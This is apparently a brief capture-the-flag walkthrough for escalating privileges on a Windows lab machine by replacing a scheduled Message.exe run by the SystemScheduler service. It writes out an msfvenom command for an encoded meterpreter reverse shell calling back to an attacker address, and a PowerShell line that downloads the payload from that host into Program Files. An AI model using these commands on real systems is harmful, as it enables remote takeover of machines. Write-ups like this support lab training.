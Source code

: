 We first need to find out who we're running as
`whoami /priv`


---
### NO METASPLOIT
Enumerate running processes and services
`tasklist /svc`


WindowsScheduler is the red flag we are looking for in the services
WService.exe

The hint tells us to look in `c:\program files (x86)`
We look in the `SystemScheduler\events` directory where we find a log file. 

We look at the log file to see it is running `Message.exe` periodically

We can replace Message.exe with our payload

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.6.14 LPORT=4444 -e x86/shikata_ga_nai -f exe -o Message.exe`

Set up a metasploit multi/handler to receive the shell

`powershell -c "Invoke-WebRequest" -Uri 'http://10.9.6.14:80/Message.exe' -OutFile 'c:\program files (x86)\systemscheduler\Message.exe'`

We should now have root

